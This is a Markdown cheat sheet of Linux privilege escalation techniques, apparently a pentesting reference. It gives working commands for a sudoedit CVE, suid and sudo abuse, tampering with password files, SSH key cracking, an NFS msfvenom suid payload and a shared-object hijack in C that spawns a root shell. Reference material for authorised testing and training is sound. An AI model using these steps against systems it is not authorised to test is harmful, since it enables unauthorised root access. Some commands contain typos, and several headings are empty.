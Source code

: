 ```yaml
---
description: A list of Privilege Escalation Techniques for Linux.
---
```


# Linux

## Local Privesc Scanner

### linPEAS

LinPEAS is a script that search for possible paths to escalate privileges on **Linux/Unix/MacOS** hosts.&#x20;

> **Github:** [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Know vulnerabilities

### **Sudo version <= 1.9.12p1**

* [CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

Allow a user that have `sudo` privileges for `sudoedit` to read/write all files of another user.

```bash
pezzz@flop.py:~$ EDITOR="vi -- </path/file>" sudo -u <user> sudoedit <file>
```

###  Polkit vulnerability

### [Dirty cow](https://www.exploit-db.com/exploits/40616)

###  [mysql running as root](https://www.exploit-db.com/exploits/1518)

### Kernel exploits

### bash < 4.2-048:

How to exploit :
*   Find a suid binary, check with `strings` what linux binary it's using
*   Create a function with the same name `function <path_to_used_binary> { /bin/bash -p; };`
*   Export it `export -f /usr/sbin/service`
*   Run the suid binary

##  Commands runnable with sudo `sudo -l`

*  If commands are runnable with `NOPASSWORD` then check (gtfobins)[https://gtfobins.github.io/]
*  If commands are runnable with `SETENV` that means you can use this to set an environment variable like `PYTHONPATH` like this `sudo -u <user> PYTHONPATH=<your/python/path> <command>`. This will force the program to execute the scripts in the given path whith the rights of the sudo user. Don't forget you can always create files in `/tmp`.
    *   abuse wilcard commands

##  Users' commands history 

```bash
cat ~/.*history | less
```

You might find passwords in the history.

##  Binaries with the suid bit set

```bash
find / -perm -4000 2>/dev/null
```

Check if the binaries are exploitables for privesc on (gtfobins)[https://gtfobins.github.io/].

##  Cron jobs

*   Abuse wildcard commands
*   Abuse environment variables

##  Writable `/etc/shadow`

Generate a new hash with `mkpasswd -m sha-512 <new_password>` and replace the one of an user or create a new user

##  Writable `/etc/password`

Generate a new password hash with `openssl passwd newpasswordhere` and then replace the `x` of a user or create a new one

##  Readable `/etc/shadow`

Read the password's hash of the users and try to crack them


## Readable ssh keys (use it to connect as the user)

If the ssh key is password protected you can use `ssh2jonh.py id_rsa > tojohn.txt` to convert it into a hash and the crack the password with `john tojohntxt`

##  Writable `know_hosts` file: add your `id_rsa.pub` key in it and then connect as the user

## Secrets in config files

##   Abuse NFS configuration:

Check: `cat /etc/exports`
How to exploit: 
*   Mount the nfs on your machine `sudo mksir /tmp/nfs;sudo mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`
*   Generate payload `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
*   Add suid bit and execution `chmod +xs /tmp/nfs/shell.elf`
*   Execute the payload on the machine `/tmp/shell.elf`

##  Hijack shared objects ([resource](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Abusing%20Shared%20Libraries%20-%20boiteaklou.pdf)):
Requirements:
    *   a suid binary or a binary callable with sudo
    *   a way to make  the binary call a shared object you wrote:
        *   shared object does not exist => create it
        *   shared object is writable => overwrite it
        *   binary is callable with sudo and keeps `LD_LIBRARY_PATH` variable => export the env variable when calling the binary
        *   `/etc/ld.so.conf.d` contains a config file which points to somewhere you can write => put your exploit in the pointed path
How to check exploitability:
    *   Check loaded shared objects and if there is variables like RUNPATH: `readelf -d ./binary`
    *   Check if the binary finds the shared objects `ldd binary`
    *   
How to exploit:
    *   write your exploit (you can replace the function name by a function used by the binary):
        ```c
        #include <stdio.h>
        #include <unistd.h>
        #include <sys/types.h>
        void _init(){
            setreuid(geteuid(), geteuid());
            system("/bin/bash -p");
        }
        ```
    *   compile it: `gcc -shared -fPIC -nostartfiles -o lib.so exploit.c`
    *   put it somewhere where the binary will load it
    *   run the binary
